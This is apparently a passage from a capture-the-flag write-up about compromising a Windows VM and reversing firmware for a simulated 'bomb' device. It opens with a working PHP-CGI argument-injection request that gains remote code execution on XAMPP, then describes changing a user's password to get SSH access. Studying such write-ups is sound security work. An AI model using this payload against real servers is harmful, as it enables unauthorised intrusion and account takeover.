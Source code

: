 ```ps1
irm -Method post \
    -ContentType "application/x-www-form-urlencoded" \
    -Body '<?php echo system("dir"); die(); ?>' \
    "http://localhost/submit.php?%ADd+allow_url_include%3d1+%ADd+auto_%70%72%65%70%65%6e%64_file%3dphp://input"
```

Once we have RCE, we can use it to run commands as the XAMPP user. The XAMPP
user seems to have all admin privileges, so we can change the password of the
`diffuse` user and SSH as that user instead. In this new desktop, we find a few
interesting files, particularly the firmware for a certain bomb device.

Reversing this firmware was really quite a pain. It uses the XTENSA
architecture, which IDA doesn't have decompilation support for, and Ghidra's
decomp for it was quite bad. In fact, for this challenge, I found dynamic
reversing a lot more useful than static, but we'll visit that later. First, we
need to figure out how to actually run the firmware by simulating the device.

In the user's desktop, there are also some photos of the bomb device, including
the Arduino board used to run the firmware. We can see from the board that the
processor is atmega328p, and we can download an IDA configuration for this
processor type [from here](https://gist.github.com/extremecoders-re/8d3e9b846a6ec883e5ae3b2bccf5cc88).

Annoyingly, the schematic for the bomb was hidden in another folder in
`AppData/Roaming`, and I only found the `schematic.pdf` file after looking
through almost literally everything, and stumbling on the backup history for
Notepad++, which the challenge author probably used to setup the original
instance. There I saw the `setup.ps1` file which points me to the
`schematic.pdf` file.

Because I didn't have the schematic initially, I tried using a variety of
simulation software, such as [simavr](https://github.com/buserror/simavr) and
[AVR
Simulator](https://ww1.microchip.com/downloads/aemDocuments/documents/parked-documents/AVR-Simulator-UserGuide-DS50003042A.pdf),
all to no avail. Why? Because my assumptions about how the bomb worked, based on
the fake (and completely useless) image of the bomb provided in the folder, were
wrong. I even tried to replicate the wiring of the bomb using eye power on the
image, but nothing was showing up on the simulated LCD. Frustrated, I decided to
take a break and wait for Gerrard to solve the challenge first, while I went to
do my ever-growing pile of long-overdue schoolwork.

---

After Gerrard (flyyee) solved this challenge, I came back to take another look
at the Windows VM provided, and finally found the `schematic.pdf` file. This
schematic was worlds apart from the provided image:

1. The LCD display was completely different - in the image, it was a Hitachi
HD44780 LCD, the most common LCD display on the market. However, the
schematic suggested the LCD used was wokwi-lcd1602-i2c - not only is the LCD
chip different (PCF8574T rather than HD44780), the protocol used is also
different (I2C instead of standard).
2. The image showed that the bomb had 2 input buttons - but in the schematic,
the bomb is connected to a keypad instead.
3. The image didn't have the 7segment component, while the schematic had it.

